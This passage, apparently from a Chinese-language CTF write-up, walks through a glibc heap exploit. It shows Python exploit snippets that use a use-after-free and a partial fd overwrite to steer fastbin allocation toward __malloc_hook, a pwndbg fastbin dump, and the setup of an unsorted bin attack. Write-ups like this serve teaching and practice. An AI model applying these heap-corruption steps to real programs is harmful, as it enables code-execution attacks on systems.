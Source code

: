  

```py
free(2)
free(3)
info("创建两个 0x70 的 fastbin")
heap_po = "\x20"
edit(3,heap_po)
info("把 chunk'1 链入到 fastbin 里面")

```

调试看看此时 `fastbin` 的状态

 

```
pwndbg> fastbins 
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x555555757160 —▸ 0x555555757020 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x7ffff7dd1b78
0x80: 0x0
```

> `0x555555757020` 就是 `chunk B`

 然后通过修改 `B->fd` 的低 `2` 字节， 使得 `B->fd= malloc_hook - 0x23`

 

```
# malloc_hook 上方
malloc_hook_nearly = "\xed\x1a"
edit(1,malloc_hook_nearly)
info("部分写，修改 fastbin->fd ---> malloc_hook")

```

然后分配 `3` 个 `0x70` 的 `chunk` ，就可以拿到 `malloc_hook` 所在的那个 `chunk` .

 

```
create(0x65,0)
create(0x65,0)
create(0x65,0)
```

然后 `free` 掉 `E` ，进入 `fastbin` ，利用 `uaf` 设置 `E->fd = 0` ， 修复了 `fastbin`

```
free(15)
edit(15,p64(0x00))
info("再次生成 0x71 的 fastbin, 同时修改 fd =0, 修复 fastbin")
```

然后是 unsorted bin 攻击，使得 malloc_hook 的值为 main_arena+88
